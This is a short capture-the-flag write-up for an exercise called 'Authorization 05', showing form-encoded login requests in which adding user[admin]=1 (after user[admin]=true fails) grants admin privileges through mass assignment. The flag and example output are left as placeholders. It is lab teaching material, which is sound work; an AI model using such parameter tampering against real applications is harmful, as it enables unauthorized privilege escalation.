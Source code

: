 # Write Up

## Challenge name
Authorization 05

## description
In this exercise, the developer fixed the previous bug. You cannot create a user with admin privileges... or at least not directly. Try to find a way to do the same thing.

## solution
This Challenge is similar to Authorization 04
- trying to log in, makes a request
```
user[username]=myuser&
user[password]=myuser&
submit=Enviar
```
- using the same code doesn't working
```
user[username]=myuser&
user[password]=myuser&
user[admin]=true&
submit=Enviar
```
- we get an error, because were ar not admin
- after trying some different requests
```
user[username]=myuser&
user[password]=myuser&
user[admin]=1&
submit=Enviar
```
- `user[admin]=1`, this line works
- 1 and tru are similar, both could be a true value
## flag
```
flag{}
```
<details>
  <summary>Example</summary>

  ```
  long console output here
  ```
</details>